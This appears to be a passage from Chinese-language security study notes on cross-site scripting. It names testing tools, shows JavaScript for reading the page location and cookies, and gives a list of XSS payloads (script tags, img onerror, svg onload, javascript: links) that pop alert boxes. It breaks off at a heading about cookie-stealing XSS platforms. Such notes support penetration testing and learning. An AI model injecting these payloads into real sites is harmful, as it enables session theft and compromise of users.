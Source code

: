 Attribute content

URL content 

```
<a>a标签</a>
```

Style content

Script content

登录、注册、评论、留言等

### XSS测试方法

1、工具扫描：APPscan、AWVS、xray等大型漏扫工具、xsstrike等自动化小工具。

https://github.com/s0md3v/XSStrike

2、手工测试：Burpsuite、Firefox（hackbar）

------

## XSS攻击框架

```javascript
在Console可输入以下代码
document.location.href;/*获取当前网页地址，document可省略。='url'可跳转*/
location.href = 'url';//跳转到url页面 eg：location.href="https://www.baidu.com"
document.location = 'url';//跳转到url页面
document.cookie;//获取当前网页的所有cookie

alert               alert()方法用于显示带有一条指定消息和一个确认按钮的警告框
window.location    window.location对象用于获得当前页面的地址(URL) ,并把浏览器重定向到新的页面 
onload                  一张页面或一幅图像完成加载 
onsubmit              确认按钮被点击 
onerror                 在加载文档或图像时发生错误

<script>alert('XSS')</script>
<script>alert(1)</script>  url编码 %3Cscript%3Ealert%281%29%3C%2Fscript%3E
<script>alert(/xss/)</script>  弹框内容为/XSS/
'"><script>alert('XSS')</script>
<script>alert(document.cookie)</script>//弹框cookie信息
<svg onload=alert(document.domain)>//弹框域名
<img src=1 onerror=alert(/hi/)>
<M onmouseover=alert(document.domain)>M
<marquee onscroll=alert(document.domain)>//失效
<a href=javascript:alert(document.domain)>M</a>
<body onload=alert(document.domain)>
<details open ontoggle=alert(document.domain)>//点击详细信息
<embed src=javascript:alert(document.domain)>
```

### XSS平台搭建及后台使用（cookie获取）
